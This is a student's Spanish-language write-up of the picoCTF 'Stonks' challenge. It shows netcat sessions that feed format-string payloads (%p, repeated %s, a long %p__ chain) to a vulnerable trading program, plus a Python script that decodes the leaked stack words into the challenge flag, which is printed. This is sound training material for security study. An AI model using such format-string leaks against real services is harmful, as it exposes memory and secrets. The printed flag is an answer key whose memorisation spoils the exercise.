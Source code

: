 ## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c) `nc mercury.picoctf.net 33411`

## Hints

## Solution
Mandamos una salida espesifica mediante %p y se puede ver que aparece un numero en hexadecimal.
Despues se solicito datos en modo de strings de tal forma que como vimos anteriormente la funcion printf() pudiera extraer datos del buffer. Por lo tanto se uso %s.
Despues se usa %p__ para separar hexadecimales y vemos lo que nos regresa.
Al final a prueba y error decodificamos la flag mediante un script en python.
```bash
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation/Stonks]
└─$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p
Buying stonks with token:
0x98f43b0
Portfolio as of Mon May 15 07:16:48 UTC 2023


8 shares of I
31 shares of BQO
3 shares of S
79 shares of J
201 shares of BP
486 shares of R
Goodbye!
-------------------------------
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation/Stonks]
└─$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
-------------------------------
└─$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p
Buying stonks with token:
0x9a60490__0x804b000__0x80489c3__0xf7f75d80__0xffffffff__0x1__0x9a5e160__0xf7f83110__0xf7f75dc7__(nil)__0x9a5f180__0x2__0x9a60470__0x9a60490__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x63343261__0x36613431__0xffce007d__0xf7fb0af8__0xf7f83440__0x96bb9700__0x1
Portfolio as of Mon May 15 07:24:47 UTC 2023

-------------------------------
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation/Stonks]
└─$ python3 deshex.py
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}


```

```python
  GNU nano 7.2                         deshex.py                                   
from binascii import unhexlify
flag = b"".join(
        [
                unhexlify("6f636970")[::-1],
                unhexlify("7b465443")[::-1],
                unhexlify("306c5f49")[::-1],
                unhexlify("345f7435")[::-1],
                unhexlify("6d5f6c6c")[::-1],
                unhexlify("306d5f79")[::-1],
                unhexlify("5f79336e")[::-1],
                unhexlify("63343261")[::-1],
                unhexlify("36613431")[::-1],
                unhexlify("007d")[::-1],
        ]
).decode()
print(flag)
```
## Flag
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}


## Aditional Notes

## References
